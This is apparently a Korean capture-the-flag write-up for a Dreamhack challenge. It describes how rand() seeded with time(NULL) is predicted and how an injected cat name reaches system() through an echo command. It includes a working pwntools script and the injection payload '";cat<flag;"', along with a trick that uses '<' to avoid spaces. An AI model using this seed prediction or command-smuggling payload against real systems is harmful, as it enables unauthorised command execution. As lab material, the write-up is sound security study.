






# Structure


rand() 함수의 seed를 time(NULL)로 지정하고 rand() 값을 2로 나누어 장애물의 위치를 0또는 1로 값을 정ㅎ한 뒤에 왼쪽 점프를 h, 오른쪽 점프를 l로 입력받는다.

캣닢이 있으면 장애물이 있더라도 넘어가며, 아까 구한 장애물 값과 비교하여 해당 방향에 장애물이 있는지 확인한다.
rand() 함수를 한 번 더 호출하고 최대 값인 RAND_MAX로 나누어 0.1보다 작으면 캣닢을 얻을 수 있도록 한다.


만약 장애물을 다 피해서 지붕에 도착하면 입력받은 문자열 cat_name을 cmd_fmt 문자열에 넣어 버퍼에 저장한다.
저장한 문자열을 system() 함수로 실행한 뒤, /tmp/cat_db에 위치한 값을 출력한다.
# Vuln
먼저 srand() 함수는 rand() 함수의 시드를 저장하는 함수로, seed 값이 같다면, rand() 함수 실행 횟수에 따라 값이 같다.<br>time() 함수는 unix 시간대(1970.01.01부터 현재 시간의 초 값)을 받아와 저장하는 함수로, NULL로 저장할 주소를 입력하지 않고 srand() 함수에 인자 값으로 넣는 역할이다.<br>srand() 함수에 seed 값을 time() 함수로 지정한다면, 프로그램이 실행되는 동시에 seed 값으로 지정하면 예측할 수 있는 취약점이 있다.<br>이 방식으로 장애물의 위치를 계산하여 피해갈 수 있다.
지붕에 도착했을때 command에 내 입력 값을 넣을 수 있어 command injection이 가능하다.
# Exploit
```python
import time
from ctypes import CDLL
from pwn import *

# context.log_level = 'debug'

# p = process('./')
p = remote('host3.dreamhack.games', 23348)

libc = CDLL("libc.so.6")
seed = int(time.time())
libc.srand(seed)

payload = b'";cat<flag;"'

for i in range(37):
    if (libc.rand() % 2) == 0:
        p.sendlineafter(b'jump', b'l')
    else:
        p.sendlineafter(b'jump', b'h')
    libc.rand()

p.sendlineafter(b'name', payload)

p.interactive()
```
서버에 쓰이는 동일한 환경을 세팅해주고 접속하자마자 rand() 함수의 seed 값을 서버와 맞춘 후 장애물을 피한다.(캣닢에서 rand()를 한 번 더 구하기 때문에 한 번에 두 번 실행해준다.)
`echo "`입력값`" > /tmp/cat_db` 명령어에서 echo는 파일의 값을 읽을 수 없기에, echo 명령어를 `“;` 로 끝내고 cat flag에서 띄어쓰기를 우회하기 위해 `cat<flag;`명령어를 실행 후 뒤의 `“` 로 `“”`를 완성시켜준 뒤 코드를 실행해보면

플래그를 얻을 수 있다.
### Notes
rand() 함수의 seed 값을 time() 함수로 두는 것은 위험하다.
snprintf(저장할 버퍼, 문자열 길이, 저장할 문자열, 문자열 포맷, 대응할 입력 값)으로 되어있다.
cat flag시에 띄어쓰기를 \<로 우회할 수 있다.
